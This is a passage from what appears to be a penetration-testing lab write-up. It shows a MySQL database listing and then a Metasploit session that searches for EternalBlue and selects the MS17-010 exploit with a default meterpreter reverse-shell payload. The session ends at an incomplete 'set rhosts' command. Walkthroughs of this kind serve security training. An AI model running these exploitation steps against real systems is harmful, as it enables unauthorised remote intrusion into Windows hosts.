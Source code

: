 ```sh
| cards              |
| mysql              |
| performance_schema |
| test               |
| wordpress          |
+--------------------+
6 rows in set (0.007 sec)

MySQL [(none)]> 
```

<figure><img src="../../.gitbook/assets/Screenshot from 2024-01-14 19-56-32.png" alt=""><figcaption></figcaption></figure>

```sh
msf6 > search eternalblue

Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce

msf6 > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 
[-] Unknown variable
Usage: set [option] [value]

Set the given option to value.  If value is omitted, print the current value.
If both are omitted, print options that are currently set.

If run from a module context, this will set the value in the module's
datastore.  Use -g to operate on the global datastore.

```